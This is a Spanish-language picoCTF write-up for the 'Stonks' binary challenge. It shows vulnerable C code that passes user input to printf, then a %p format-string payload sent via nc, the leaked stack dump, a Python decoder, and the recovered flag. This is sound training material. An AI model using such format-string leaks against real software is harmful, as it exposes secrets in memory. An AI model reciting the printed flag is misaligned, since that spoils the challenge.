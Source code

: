 
# Stonks

## Descripcion
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c) `nc mercury.picoctf.net 59616`
## Pistas
Okay, maybe I'd believe you if you find my API key.
## Solucion
se nos da un codigo fuente y lo analizamos: 

```bash()
  GNU nano 6.4                                                                                                                                                                                                                          vuln.c                                                                                                                                                                                                                                   
        if (!p) {
                return 1;
        }
        printf("\nPortfolio as of ");
        fflush(stdout);
        system("date"); // TODO: implement this in C
        fflush(stdout);

        printf("\n\n");
        Stonk *head = p->head;
        if (!head) {
                printf("You don't own any stonks!\n");
        }
        while (head) {
                printf("%d shares of %s\n", head->shares, head->symbol);
                head = head->next;
        }
        return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
        if (shares < 1) {
                return NULL;
        }
        Stonk *stonk = malloc(sizeof(Stonk));
        stonk->shares = shares;

        int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
        for (int i = 0; i <= MAX_SYM_LEN; i++) {
                if (i < AI_symbol_len) {
                        stonk->symbol[i] = 'A' + (rand() % 26);
                } else {
                        stonk->symbol[i] = '\0';
                }
        }

        stonk->next = NULL;

        return stonk;
}

int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);

        int money = p->money;
        int shares = 0;
        Stonk *temp = NULL;
        printf("Using patented AI algorithms to buy stonks\n");
        while (money > 0) {
                shares = (rand() % money) + 1;
                temp = pick_symbol_with_AI(shares);
                temp->next = p->head;
                p->head = temp;
                money -= shares;
        }
        printf("Stonks chosen\n");

        // TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);

        // TODO: Actually use key to interact with API

        view_portfolio(p);

        return 0;
}

Portfolio *initialize_portfolio() {
        Portfolio *p = malloc(sizeof(Portfolio));
        p->money = (rand() % 2018) + 1;
        p->head = NULL;
        return p;
}

void free_portfolio(Portfolio *p) {
        Stonk *current = p->head;
        Stonk *next = NULL;
        while (current) {
                next = current->next;
                free(current);
                current = next;
        }
        free(p);
}

int main(int argc, char *argv[])
{
        setbuf(stdout, NULL);
        srand(time(NULL));
        Portfolio *p = initialize_portfolio();
        if (!p) {
                printf("Memory failure\n");
                exit(1);
        }

        int resp = 0;

        printf("Welcome back to the trading app!\n\n");
        printf("What would you like to do?\n");
        printf("1) Buy some stonks!\n");
        printf("2) View my portfolio\n");
        scanf("%d", &resp);

        if (resp == 1) {
                buy_stonks(p);
        } else if (resp == 2) {
                view_portfolio(p);
        }

        free_portfolio(p);
        printf("Goodbye!\n");

        exit(0);
}


```

Encontramos una funcion que lee la bandera en la pila y le pide al usuario que ingrese una entrada antes de imprimir la bandera con printf. Podemos explotar la vulnerabilidad de cadena o string format. 
Entonces ocupamos mandar muchos %x para ver cual desboardara la funcion. creamos un input con lo siguiente:

```bash()
1
%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p
```

Al insertarlo en el programa nos da lo siguiente:
```
┌──(kali㉿kali)-[~/notas-hacking/PicoCTf/binary/Stonks]
└─$ nc mercury.picoctf.net 59616 < input

Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
0x954f430__0x804b000__0x80489c3__0xf7f4cd80__0xffffffff__0x1__0x954d160__0xf7f5a110__0xf7f4cdc7__(nil)__0x954e180__0x1__0x954f410__0x954f430__0x6f636970__0x7b465443__0x306c5f49__0x345f7435__0x6d5f6c6c__0x306d5f79__0x5f79336e__0x38343136__0x34356562__0xff9b007d__0xf7f87af8__0xf7f5a440__0x3296e300__0x1
Portfolio as of Tue May 30 00:19:37 UTC 2023


1 shares of ISRQ
2 shares of BA
10 shares of F
24 shares of D
29 shares of WSG
43 shares of F
16 shares of V
123 shares of YOA
62 shares of J
89 shares of E
Goodbye!

```
Vemos que hay codigo ASCII y usamos un decodificador en python para obtener la bandera:
```bash()
from binascii import unhexlify
flag = b"".join(
	[ 
	unhexlify("6f636970")[::-1], 
	unhexlify("7b465443")[::-1],
	unhexlify("306c5f49")[::-1], 
	unhexlify("345f7435")[::-1],
	unhexlify("6d5f6c6c")[::-1],
	unhexlify("306d5f79")[::-1], 
	unhexlify("5f79336e")[::-1], 
	unhexlify("38343136")[::-1], 
	unhexlify("34356562")[::-1], 
	unhexlify("007d")[::-1], 
	]
).decode() 

print(flag)
```
y el resultado : 

```bash
┌──(kali㉿kali)-[~/notas-hacking/PicoCTf/binary/Stonks]
└─$ python3 unhex.py 
picoCTF{I_l05t_4ll_my_m0n3y_6148be54}
```


## Bandera

picoCTF{I_l05t_4ll_my_m0n3y_6148be54}

## Notas adicionales

| comando | descripcion

## Referencias
